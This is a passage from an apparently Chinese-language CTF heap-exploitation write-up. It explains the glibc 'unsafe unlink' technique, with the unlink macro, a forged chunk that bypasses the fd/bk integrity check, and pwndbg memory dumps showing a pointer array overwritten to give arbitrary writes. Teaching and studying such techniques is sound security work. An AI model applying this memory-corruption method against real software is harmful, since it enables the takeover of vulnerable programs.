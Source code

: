 &emsp;&emsp;<font size=2>因为我们在`free(p2);`之前已经通过某种手段抹掉了其prev_inuse位，因此控制流会进入这一段if执行，得到其pre_size，并把其加到size上，然后设置p减去我们伪造的pre_size而到了一个假的，不是真正的堆块上，然后进行一个unlink宏：</font></br>

```C
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;                                                               \
    BK = P->bk;                                                               \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {                                                                    \
        FD->bk = BK;                                                          \
        BK->fd = FD;
```

&emsp;&emsp;<font size=2>现在宏内部，P就是那个假的堆块（现在称其为我们伪造的堆块），唯一需要注意的就是对这个链表的一个检查：`FD->bk!=P || BK->fd!=P`，FD就是`P+0x10`的数据，我们伪造为了`&chunk_link[0]-0x18`，BK就是`P+0x18`里的数据，我们伪造为了`&chunk_link[0]-0x10`，而对其bk或者fd的访问同样也是一个加0x18或者0x10的偏移，因此想象一下这个检查：</font></br>

```C
*((&chunk_link[0]-0x18)+0x18)==P
*((&chunk_link[0]-0x10)+0x10)==P
```

&emsp;&emsp;<font size=2>效果岂不是相当于`chunk_link[0]==P`？而chunk_link[0]正是我们之前记录的堆块P（思考一下，为什么只能把堆块伪造在堆块头+0x10的位置，再往下就不行？），检查刚好被绕过了，然后再看一看我们之前分析得到的链表脱钩操作：</font></br>

```C
P->fd->bk=P->bk;
P->bk->fd=P->fd;
```

&emsp;&emsp;<font size=2>这个操作的效果如下：</font></br>

```C
chunk_link[0]=p-0x10;
chunk_link[0]=p-0x18;
```

&emsp;&emsp;<font size=2>free的后续代码不重要了，也就是说free函数结束后，chunk_link的内容变成了这样：</font></br>

```
0x601080 <chunk_link>:	0x0000000000601068	0x0000000000602120
0x601090 <chunk_link+16>:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>这个时候，程序还以为`chunk_link[0]`记录的仍然是第一个堆块的地址，然后其指向的地址却已修改为了chunk_link地址的前0x18个字节，因此在你使用"编辑以前的笔记"功能的时候，效果类似如下：</font></br>

```C
read(0,chunk_link[0],0x20);
```

&emsp;&emsp;<font size=2>往里写入一系列数据的时候会覆盖到我们的chunk_link，相当于chunk_link里有多少个堆块我们就可以任意写多少次。比如写0x20个'a'：</font></br>

```
pwndbg> x/20xg 0x601000
0x601000:	0x0000000000600e28	0x00007ffff7ffe168
0x601010:	0x00007ffff7dee870	0x00007ffff7a914f0
0x601020:	0x00007ffff7b04250	0x00007ffff7a2d740
0x601030:	0x00007ffff7a91130	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060 <completed.7594>:	0x0000000000000000	0x6161616161616161
0x601070:	0x6161616161616161	0x6161616161616161
0x601080 <chunk_link>:	0x6161616161616161	0x0000000000602120
0x601090 <chunk_link+16>:	0x0000000000000000	0x0000000000000000
pwndbg>
```
